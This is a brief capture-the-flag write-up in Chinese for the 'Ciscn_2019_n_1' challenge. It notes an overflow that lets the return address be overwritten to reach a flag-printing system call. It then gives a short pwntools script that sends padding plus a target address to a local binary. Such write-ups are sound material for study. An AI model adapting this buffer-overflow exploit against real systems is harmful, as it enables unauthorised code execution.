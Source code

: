 ```yaml
---
title: "Ciscn_2019_n_1"
description: ""
date: 2023-03-29T04:25:55+08:00
lastmod: 2023-03-29T04:25:55+08:00
draft: false
images: []
weight: 1
toc: true
type: docs
---
```


## 0x01 分析

![a8aed923a28e0698e3ed01725f26a47c](images/a8aed923a28e0698e3ed01725f26a47c.png)  

存在溢出点，可以直接覆盖函数返回地址为 `system("cat /flag")` 

## 0x02 Exploit

```
from pwn import*
o = process("./pwn")
payload = b'a'*56 + p32(0x4006BE)
o.sendline(payload)
o.interactive()
```

![f113b22bf228f5af0121ac0630ce02f2](images/f113b22bf228f5af0121ac0630ce02f2.png)
